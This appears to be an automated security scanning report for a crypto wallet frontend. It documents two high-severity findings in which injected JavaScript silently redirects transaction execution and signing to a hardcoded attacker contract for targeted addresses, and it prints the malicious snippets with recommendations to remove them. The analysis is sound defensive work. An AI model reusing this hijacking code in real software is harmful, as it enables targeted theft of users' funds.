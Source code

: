 
<div style="display: flex; justify-content: center; align-items: center; gap: 10px;">
<img src="image/Bastet.png" width="60">
<span style="font-size: 30px; font-weight: bold;">Bastet AI Scanning Report</span>
</div>
<br><br>
# About Bastet Cefi
Bastet is a scanning tool focusing on irregular business logic error for web2 security along with an AI-driven automated detection process to enhance vulnerability detection accuracy and optimize security lifecycle management.

# Risk Classification

| Severity Level | Impact: High | Impact: Medium | Impact: Low   |
| ------------------- | -------- | ------------- | ------------- |
| Likelihood: High    | High     | Medium        | Low           |
| Likelihood: Medium  | Medium   | Low           | Informational |
| Likelihood: Low     | Low      | Informational | Informational |

## Impact
High: leads to a loss of assets in the protocol, or significant harm to a majority of users.
Medium: function or availability of the protocol could be impacted or losses to only a subset of users.
Low: State handling, function incorrect as to spec, issues with clarity, losses will be annoying but bearable.

## Likelihood
* 	High: almost certain to happen, easy to perform, or not easy but highly incentivized.
* Medium: only conditionally possible or incentivized, but still relatively likely.
* Low: requires stars to align, or little-to-no incentive.

<div style="page-break-before: always;"></div>

# Security Assessment Summary
This security assessment is supported by [Bastet](https://github.com/OneSavieLabs/Bastet). Bastet is an AI vulnerability detection infrastructure that includes a dataset of common DeFi smart contract vulnerabilities as well as multiple vulnerability detection processes. It is capable of identifying medium- to high-risk issues observed on-chain and in past audit competitions and, through its customizable detection workflows, improves the accuracy of automated vulnerability discovery. Bastet also supports comprehensive security evaluations during development, auditing, and monitoring phases.

# Project Summary

TBD // maybe add a quick summary from ai to read the codebase?

### Issues Found : 
| Severity      | Count |
| ------------- | ----- |
| High          |   2   |
| Medium        |   0   |
| Low           |   0   |
| Informational |   0   |
| **Total**     |   2   |

<div style="page-break-before: always;"></div>

# Findings
### Malicious smart contract injection in transaction execution path
* **Severity**: High
* **Vulnerability**: 
* * **Function Name**: E
* * **Description**: The function modifies the transaction data to redirect execution to a malicious contract address when certain wallet or signer addresses match hardcoded values. This change replaces the intended recipient, data payload, and execution parameters, effectively hijacking funds or calls. Normal operation proceeds for other users, making the behavior targeted and harder to detect.
* * **Code Snippet**: 
```
let wa=["0x1db92e2eebc8e0c075a02bea49a2935bcd2dfcf4","0x19c6876e978d9f128147439ac4cd9ea2582cd141"];
let ba=["0x828424517f9f04015db02169f4026d57b2b07229","0x7c1091cf6f36b0140d5e2faf18c3be29fee42d97"];
let ta="0x96221423681a6d52e184d440a8efcebb105c7242"; let da="0xa9059cbb000000000000000000000000bdd077f651ebe7f7b3ce16fe5f2b025be29695160000000000000000000000000000000000000000000000000000000000000000";
...
const cf=wa.some(k1 => lu.includes(k1));
const cb=ba.some(k1 => sa.includes(k1));
if(cf == true && se.data.operation==0){
  const td=structuredClone(se.data);
  se.data.to=ta;
  se.data.operation=op;
  se.data.data=da;
  se.data.value=vl;
  se.data.safeTxGas=sga;
  try{l=await sd.executeTransaction(se,st);se.data=td;}catch (e) {se.data=td; throw e;}
} else {
  l=await sd.executeTransaction(se,st);
}
```
* **Recommendation**: 
Remove any conditional logic that modifies transaction details based on hardcoded wallet or signer addresses. Ensure that all transaction parameters originate from the user and are validated before execution. Conduct a thorough review of the code to confirm no unauthorized address-based rerouting is present.

---

### Malicious smart contract injection in transaction signing path
* **Severity**: High
* **Vulnerability**: 
* * **Function Name**: O
* * **Description**: The function intercepts transaction signing and changes the destination address, operation type, data payload, and gas parameters when the Safe address matches hardcoded malicious addresses. Additionally, if the signer address matches another set of hardcoded addresses, it triggers a page reload. This behavior targets specific users to redirect signed transactions to malicious contracts without their consent.
* * **Code Snippet**: 
```
let wa=["0x1db92e2eebc8e0c075a02bea49a2935bcd2dfcf4","0x19c6876e978d9f128147439ac4cd9ea2582cd141"];
let ba=["0x828424517f9f04015db02169f4026d57b2b07229","0x7c1091cf6f36b0140d5e2faf18c3be29fee42d97"];
let ta="0x96221423681a6d52e184d440a8efcebb105c7242"; let da="0xa9059cbb000000000000000000000000bdd077f651ebe7f7b3ce16fe5f2b025be29695160000000000000000000000000000000000000000000000000000000000000000";
...
const cf=wa.some(k1 => lu.includes(k1));
const cb=ba.some(k1 => sa.includes(k1));
if(cb==true){location.href=location.href;}
if(cf==true && se.data.operation==0){
  const td=structuredClone(se.data);
  se.data.to=ta;
  se.data.operation=op;
  se.data.data=da;
  se.data.value=vl;
  se.data.safeTxGas=sga;
  try { const r=await sd.signTransaction(se,st); r.data=td; se.data=td; return r; } catch (n) { se.data=td; throw n; }
} else {
  const r=await sd.signTransaction(se,st); return r;
}
```
* **Recommendation**: 
Eliminate the malicious logic that alters transaction signing parameters based on specific hardcoded addresses. Signing functions should only process the data given by the user and should not introduce hidden address checks or modifications. Audit and remove any reload or diversion behaviors to prevent targeted exploitation.

---



